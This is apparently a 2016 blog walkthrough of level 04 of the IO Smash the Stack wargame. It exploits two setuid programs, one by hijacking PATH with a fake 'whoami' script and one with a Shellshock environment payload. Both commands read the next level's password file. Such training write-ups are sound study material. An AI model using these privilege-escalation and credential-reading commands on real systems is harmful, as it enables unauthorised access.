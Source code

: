 +++
title = "IO Smash the stack level 04"
date = "2016-01-26T10:48:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-04"
project_url = "https://greyhat.dk/io-smashthestack-level-04"
type = "post"
description = "Walk-through"
+++

## Level04

```sh
level4@io:/levels$ ls -latr level04*
-r-sr-x--- 1 level5 level4 5159 Dec 18  2013 level04
-r-------- 1 level4 level4  245 Dec 18  2013 level04.c
-r-sr-x--- 1 level5 level4 5105 Sep 24  2014 level04_alt
-r-------- 1 level4 level4  120 Jan 27  2015 level04_alt.c
```

level4@io:/levels$ cat level04.c
```c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

So it runs whoami without full path .. lets see if we can make it run our version of whoami

```sh
level4@io:~$ mkdir /tmp/desdic
level4@io:~$ cd /tmp/desdic
level4@io:/tmp/desdic$ echo "cat /home/level5/.pass" > whoami
level4@io:/tmp/desdic$ chmod 777 whoami
level4@io:/tmp/desdic$ ./whoami
cat: /home/level5/.pass: Permission denied
level4@io:/tmp/desdic$ export PATH=.:$PATH
level4@io:/tmp/desdic$ which whoami
./whoami
level4@io:/tmp/desdic$ /levels/level04
Welcome XXXXXXXXXXXXXXXX
```


## Level04 alt

level4@io:/tmp/desdic$ cat /levels/level04_alt.c
```c
//written by bla
#include <stdlib.h>
int main(){
	setresuid(geteuid(), geteuid(), geteuid());
	system("/usr/bin/id");
}
```

Tried some old tricks using IFS to split the system call into usr bin id but it never worked. So I tried shellshock

```sh
level4@io:/tmp/d$ env x='() { :;}; cat /home/level5/.pass' /levels/level04_alt
XXXXXXXXXXXXXXXX
```
